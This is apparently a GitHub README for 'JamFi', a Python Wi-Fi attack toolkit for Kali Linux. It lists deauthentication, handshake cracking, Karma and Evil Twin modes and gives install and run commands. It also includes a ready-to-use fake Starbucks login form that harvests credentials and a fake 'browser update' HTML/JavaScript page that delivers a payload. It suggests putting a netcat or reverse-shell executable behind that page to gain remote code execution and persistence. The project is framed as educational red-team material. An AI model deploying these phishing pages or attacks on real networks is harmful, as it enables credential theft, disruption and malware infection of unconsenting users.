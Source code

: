 # 💜 JamFi – Wi-Fi Chaos Tool  
by [@ekomsSavior](https://github.com/ekomsSavior)

> Built with love to teach, explore, and cause a little friendly Wi-Fi mischief. 💅

---

## ✨ What is JamFi?

JamFi is a powerful and playful Wi-Fi chaos and red teaming toolkit written in Python for Kali Linux. It's designed for educational and cybersecurity research purposes, helping you learn how attackers exploit wireless networks—and how to defend against them.

JamFi includes tools for:

- Evil Twin Access Points ☠️  
- Deauthentication Attacks 💥  
- Handshake Capture & Cracking 🔓  
- Probe Request & Junk Flooding 📡  
- Karma Attacks 🧲  
- MITM HID Injection 💻  
- Fake Login Phishing with Auto-Logging 📄  
- and more...

Whether you're a beginner or advanced user, JamFi gives you a hands-on way to experiment and learn in a lab setting.

---

## 🛠️ Installation

1. Clone the repo:

git clone https://github.com/ekomsSavior/JamFi
cd JamFi
Make sure you have the following installed:

sudo apt update

sudo apt install -y aircrack-ng hostapd dnsmasq dnsspoof python3-scapy

Run the tool:

sudo python3 jam_fi.py

*To Update periodically:
run from the Jam_fi directory on your machine:

git pull

## When jam_fi is running you'll see:

🔹 1  Scan Clients & APs 🔍
     → Scans for nearby Wi-Fi networks (Access Points) and the clients connected to them using Scapy.

🔹 2  Deauth One Client 💥
     → Sends a deauthentication attack to disconnect a selected client from their Wi-Fi (uses scapy).

🔹 3  Deauth ALL Clients + Capture 🔓
     → Disconnects all clients from known APs and tries to capture WPA/WPA2 handshake packets.

🔹 4  Crack Captured Handshakes 🔓
     → Tries to crack saved WPA handshakes using Aircrack-ng or Hashcat if installed.

🔹 5  Probe Request Spam 📡
     → Broadcasts fake SSIDs as if clients are looking for networks, to create wireless noise.

🔹 6  Junk Packet Flood 💣
     → Sends randomized packets with fake MAC addresses to flood the airwaves and confuse devices.

🔹 7  Karma Responder 🧲
     → Responds to any probe request with a beacon frame, tricking devices into connecting.

🔹 8  Chaos Mode 💃
     → Combo mode! Runs Karma Responder, Junk Flood, and Probe Spam all at once.

🔹 9  View Loot 📁
     → Displays any saved handshakes, captured credentials, or other loot collected in the `loot/` folder.

🔹 🔟 Evil AP 👿
     → Launches a fully connectable Evil Twin Access Point with DNS redirection and phishing login page.

🔹 11 MITM HID Injection 🧠
     → Simulates a man-in-the-middle attack by redirecting users to a fake “driver install” page with mock keystroke injection.

🔹 0  Quit ❌
     → Exits JamFi and returns to your terminal.

## (*_*) Tips & Tricks for Power Users
JamFi was made to be playful, powerful, and personal. Here's how you can take your JamFi chaos to the next level:

⚡ Performance Tips

💻 Optimize Wireless Interface:

Use an ALFA AWUS1900 or AWUS036ACH for better packet injection and monitoring.

Disable power-saving on your adapter:

sudo iw dev wlan0 set power_save off

Switch channels manually with:

iwconfig wlan0 channel 6
(Replace with the target AP’s channel for better deauth or handshake captures.)

📡 Make Scans Faster:

Edit the scan delay inside jam_fi.py (look for time.sleep() under channel_hopper()).

Lowering sleep delay to 0.2 or less can speed things up, but may increase CPU usage.

👿 Evil AP Customization

🎨 Customize the Captive Portal:

Edit this file to make your own fake login page:

loot/login.html

Wanna make it look like Starbucks? Just change the login.html body:

<h2>Welcome to Starbucks Free Wi-Fi</h2>
<p>Please sign in to continue</p>
<form method="POST" action="/login">
  <input type="text" name="username" placeholder="Email"><br>
  <input type="password" name="password" placeholder="Wi-Fi Password"><br>
  <input type="submit" value="Connect">
</form>

You can view your collected credentials in:

loot/creds.txt

🔐 Advanced Hack: Fake Browser Update + Payload (Optional)

JamFi lets you simulate a fake browser update prompt using pure HTML + JavaScript — no Flipper or Rubber Ducky required. Once a device connects to your Evil AP, you can redirect them

to a custom update page that looks legit and even downloads a file of your choosing. You control it via loot/injection.html. Here's a simple example:

<!-- loot/injection.html -->
<h2>🔒 Browser Update Required</h2>
<p>To continue browsing, please install the latest security patch.</p>
<button onclick="downloadUpdate()">Update Now</button>
<script>
function downloadUpdate() {
  const a = document.createElement('a');
  a.href = 'http://10.0.0.1/fake_update.exe';  // Customize your payload here
  a.download = 'update.exe';
  document.body.appendChild(a);
  a.click();
}
</script>

Just place your payload or tool (like netcat, reverse_shell.exe, etc.) in the loot/ folder as fake_update.exe.

You now have a simulated Remote Code Execution (RCE) opportunity: once the user runs your downloaded file, you can initiate reverse shells or persistence — depending on your lab setup.

⚠️ JamFi does not include any malicious payloads — it's up to you to create safe, controlled experiments in your own lab. This is where red teamers, CTF lovers, and students can shine. 

## 💼 The loot/ Folder

This folder contains all the important config and phishing assets used by Evil AP and MITM modes:

File	Purpose

index.html	The default captive portal or phishing homepage

login.html	Fake login page that logs entered usernames & passwords

phish_server.py	Hosts the phishing server & saves form data to creds.txt

creds.txt	Stores submitted login form credentials (auto-created)

hostapd.conf	Used to configure and start the Evil Access Point

dnsmasq.conf	Handles DHCP and DNS for the Evil AP

dnsspoof_hosts	Used by dnsspoof to redirect all DNS to the attacker

hotspot-detect.html	Helps trigger captive portal on iOS/macOS devices

injection.html	Used for MITM HID payload simulation (fake keystroke browser page)

All of these files are auto-generated if missing, so don’t stress if you delete them!

## 🚨 Disclaimer

This tool is for educational and authorized research only.

By using JamFi, you agree that you are responsible for your own actions.

Do not use this tool on networks or devices you don’t have explicit permission to test.

The goal is to educate and empower—not to harm. Use wisely 💜

## 💜 Built With Love

JamFi is a passion project created by @ekomsSavior

It’s free, open-source, and meant to make learning cybersecurity hands-on, fun, and inclusive for all.

If you like JamFi, give it a ⭐️ on GitHub and share it with your hacker friends!

